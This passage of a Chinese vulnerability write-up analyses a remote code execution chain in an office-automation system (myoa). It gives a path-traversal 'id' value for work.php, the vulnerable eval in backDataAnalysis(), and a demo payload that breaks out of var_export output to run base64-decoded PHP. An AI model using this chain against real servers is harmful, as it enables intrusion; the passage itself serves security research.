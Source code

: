 现在已经可以解决关于 json\_file 文件读取的问题了，接着在 work.php 中传入 id 的参数为

```bash
../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

程序读取完 json 文件后，执行到 AllVariableBusinessProcessing 类的 backDataAnalysis()

[![](assets/1702520965-dd5ccb37b9d1fe1b70fb0e34efc47c03.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102424-bba8da6a-995e-1.jpg)

[![](assets/1702520965-ba849c96e435bf5009e1929ad1295c93.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102445-c7b15f62-995e-1.jpg)

该方法下存在 eval 函数可以执行代码，而且$variableData 的值是可控的

```bash
$variableData = $BackData["dataAnalysis"];
$variableData = json_decode($variableData, true);
$variableData = eval "return " . iconv("UTF-8", "GBK", var_export($variableData, true) . ";");
```

至于 dataAnalysis 为什么是这种格式，下面会详细讲到，这里先给出一个 demo

```bash
$c = 'ZWNobyAxMjM0Ow==';        //base64 解码后为 echo 1234;
$d = 'ZWNobyAxMjM7';            //base64 解码后为 echo 123;

$a = array(
  'a'=>'eval(base64_decode($d))',
);


$b = array(
  'a'=>'b',eval(base64_decode($c)));/*',
);
```
